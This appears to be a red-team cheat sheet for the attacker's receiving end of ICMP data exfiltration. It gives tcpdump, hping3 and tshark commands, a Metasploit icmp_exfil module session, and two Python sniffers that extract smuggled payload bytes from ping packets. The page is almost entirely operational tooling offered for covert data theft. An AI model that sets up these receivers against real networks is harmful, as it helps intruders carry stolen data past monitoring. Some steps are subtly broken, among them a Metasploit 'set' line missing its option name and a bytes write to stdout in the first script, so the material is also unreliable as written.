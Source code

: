 # Server

## 01 - TCPDump

```
$ tcpdump -i <interface> "icmp and src host <target_IP>" -w file.pcap
```

## 02 - Hping3

The receiver

```
# hping3 -I eth0 --listen <server_IP> --sign MSGID1
```

To extract the data.

```
$ tshark -n -q -r file.pcap -T fields -e data.data | tr -d "\n" | tr -d ":" > hex.txt

$ basenc -d --base16 hex.txt
```

## 03 - Metasploit

```
msf > use auxiliary/server/icmp_exfil

msf auxiliary(server/icmp_exfil) > options

Module options (auxiliary/server/icmp_exfil):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   BPF_FILTER       icmp             yes       BFP format filter to listen for
   END_TRIGGER      ^EOF             yes       Trigger for end of file
   FNAME_IN_PACKET  true             yes       Filename presented in first packet straight after START_TRIGGER
   INTERFACE                         no        The name of the interface
   RESP_CONT        OK               yes       Data ro resond when continuation of data expected
   RESP_END         COMPLETE         yes       Data to response when EOF received and data saved
   RESP_START       SEND             yes       Data to respond when initial trigger matches
   START_TRIGGER    ^BOF             yes       Trigger for beginning of file


View the full module info with the info, or info -d command.

msf auxiliary(server/icmp_exfil) > set interface <interface>

msf auxiliary(server/icmp_exfil) > set icmp and not src <target_IP>

msf auxiliary(server/icmp_exfil) > run -j
```

## 04 - Python Script

```python
import socket
import sys

s = socket.socket(socket.AF_INET, socket.SOCK_RAW, socket.IPPROTO_ICMP)
while True:
    data, src = s.recvfrom(1600)
    payload = data[44:60]
    sys.stdout.write(payload)
```

```python
import sys

try:
	from scapy.all import *
except:
	print("Scapy not found, please install scapy: pip install scapy")
	sys.exit(0)

def process_packet(packet):
	if packet.haslayer(ICMP):
		if packet[ICMP].type == 8:
			data = packet[ICMP].load[-4:]
			print(f'{data.decode("utf-8")}', flush=True, end="", sep="")

sniff(iface="eth0", prn=process_packet)
```

```
$ python3 ping_receiver.py
```

---
## References

### Command Line Kung Fu

- [Command Line Kung Fu: Exfiltration Nation](http://blog.commandlinekungfu.com/2012/01/episode-164-exfiltration-nation.html)

### Ic3M4n

- [Ic3M4n: Can You Hack It - Quick Tips - Data Exfil Over ICMP](https://www.youtube.com/watch?v=IQwl3ZE0rK0)

### ExploitDB

- [ExploitDB: File Transfer Skills in the Red Team Post Penetration Test](https://www.exploit-db.com/docs/english/46515-file-transfer-skills-in-the-red-team-post-penetration-test.pdf)